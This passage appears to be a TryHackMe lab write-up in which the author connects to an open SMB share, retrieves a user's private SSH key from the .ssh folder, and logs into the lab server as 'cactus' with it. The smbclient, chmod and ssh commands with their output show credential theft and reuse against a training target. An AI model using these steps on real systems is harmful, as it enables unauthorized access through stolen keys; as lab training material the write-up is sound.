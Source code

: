 ### Okay! Now we know this, what directory on the share should we look in?  
.ssh


### This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?  
id_rsa

```
──(kali㉿vbox)-[~/tmp/tryhackme/networkservices]
└─$ smbclient //10.10.31.167/profiles       
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> cd .ssh
smb: \.ssh\> ls
  .                                   D        0  Tue Apr 21 06:08:23 2020
  ..                                  D        0  Tue Apr 21 06:08:23 2020
  id_rsa                              A     1679  Tue Apr 21 06:08:23 2020
  id_rsa.pub                          N      396  Tue Apr 21 06:08:23 2020
  authorized_keys                     N        0  Tue Apr 21 06:08:23 2020

                12316808 blocks of size 1024. 7583456 blocks available
smb: \.ssh\> get id_rsa
getting file \.ssh\id_rsa of size 1679 as id_rsa (2.2 KiloBytes/sec) (average 2.2 KiloBytes/sec)
smb: \.ssh\> exit

```

### Download this file to your local machine, and change the permissions to "600" using "chmod 600 [file]".

Now, use the information you have already gathered to work out the username of the account. Then, use the service and key to log-in to the server.

```
┌──(kali㉿vbox)-[~/tmp/tryhackme/networkservices]
└─$ ls                                      
 id_rsa   nmap-smb  'Working From Home Information.txt'
                                                                                                     
┌──(kali㉿vbox)-[~/tmp/tryhackme/networkservices]
└─$ chmod 600 id_rsa       
```

### What is the smb.txt flag?
- ssh como user `cactus`
- lo supimos viendo su llave publica `id_rsa.pub`
```
──(kali㉿vbox)-[~/tmp/tryhackme/networkservices]
└─$ ssh -i id_rsa cactus@10.10.31.167
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 19 05:07:53 UTC 2025

  System load:  0.0                Processes:           92
  Usage of /:   33.3% of 11.75GB   Users logged in:     0
  Memory usage: 17%                IP address for eth0: 10.10.31.167
  Swap usage:   0%


```